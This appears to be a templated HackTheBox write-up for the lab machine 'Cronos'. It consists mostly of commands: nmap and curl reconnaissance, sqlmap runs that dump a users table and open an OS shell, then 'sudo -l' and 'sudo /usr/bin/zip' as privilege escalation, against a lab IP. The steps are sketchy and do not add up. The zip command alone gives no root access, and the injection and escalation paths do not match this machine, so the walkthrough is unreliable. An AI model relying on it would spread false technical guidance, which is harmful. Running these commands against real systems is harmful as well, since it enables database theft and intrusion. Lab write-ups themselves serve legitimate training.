 # HackTheBox - Cronos

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Cronos |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-25 |

## Objective 🎯

Cronos is a Linux machine with a web application that has a SQL injection vulnerability. The goal is to exploit the vulnerability to gain system access and obtain both user and root flags. SQL injection time! 🗄️

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.13
- **OS**: Linux
- **Service**: Web Application

### Tools Used
- Nmap
- SQLMap
- Web browser

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.13
```

## Methodology

### Step 1: Port Scan
```bash
nmap -sC -sV 10.10.10.13
```

### Step 2: Web Application Enumeration
```bash
curl http://10.10.10.13/
```

### Step 3: SQL Injection
```bash
sqlmap -u "http://10.10.10.13/index.php" --dbs
```

### Step 4: Database Enumeration
```bash
sqlmap -u "http://10.10.10.13/index.php" -D admin --tables
```

### Step 5: Data Extraction
```bash
sqlmap -u "http://10.10.10.13/index.php" -D admin -T users --dump
```

### Step 6: Command Execution
```bash
sqlmap -u "http://10.10.10.13/index.php" --os-shell
```

### Step 7: Privilege Escalation
```bash
sudo -l
sudo /usr/bin/zip
```

### Step 8: Find Flags
```bash
cat /home/noulis/user.txt
cat /root/root.txt
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

## Key Learnings

- SQL injection exploitation
- SQLMap usage
- Database enumeration
- Zip privilege escalation

## Tags

`#hackthebox` `#linux` `#sql-injection` `#sqlmap` `#zip` `#easy`
